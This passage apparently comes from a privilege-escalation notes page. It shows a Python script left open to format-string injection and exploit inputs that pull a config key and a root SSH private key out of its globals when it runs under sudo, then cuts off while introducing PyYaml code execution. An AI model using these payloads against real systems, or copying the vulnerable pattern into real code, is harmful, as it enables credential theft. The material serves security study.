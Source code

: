 Here is an example of a vulnerable code:

```python
# Let us assume this CONFIG & SECRET holds some sensitive information
CONFIG = {
	"KEY": "ASXFYFGK78989"
}
SECRET = [line.strip() for line in open("/root/.ssh/id_rsa")]

class PeopleInfo:
	def __init__(self, fname, lname):
		self.fname = fname
		self.lname = lname

def get_name_for_avatar(avatar_str, people_obj):
	return avatar_str.format(people_obj = people_obj)


# Driver Code
people = PeopleInfo('GEEKS', 'FORGEEKS')

# case 1: st obtained from user
st = input()
res = get_name_for_avatar(st, people_obj = people)
print(res)
```
{% endtab %}

{% tab title="Exploit" %}
To extract sensitive informations we can give the following strings as input:

```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

#We can extract the Config key with the following input
{people_obj.__init__.__globals__[CONFIG][KEY]}
#Output
ASXFYFGK78989

#We can extract the SSH key with the following input
SECRET_{people_obj.__init__.__globals__[SECRET]}_SECRET
#Output
SECRET_['-----BEGIN OPENSSH PRIVATE KEY-----', 'b3BlbnNzaC1rZXk'[...]]_SECRET

#Or we can try with the "self" variable (won't work here)
{self.__init__.__globals__[CONFIG][KEY]}
```
{% endtab %}
{% endtabs %}

### PyYaml Code Execution

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `yaml.load()` method and we controll its input, then the script is vulnerable to arbitrary code execution.
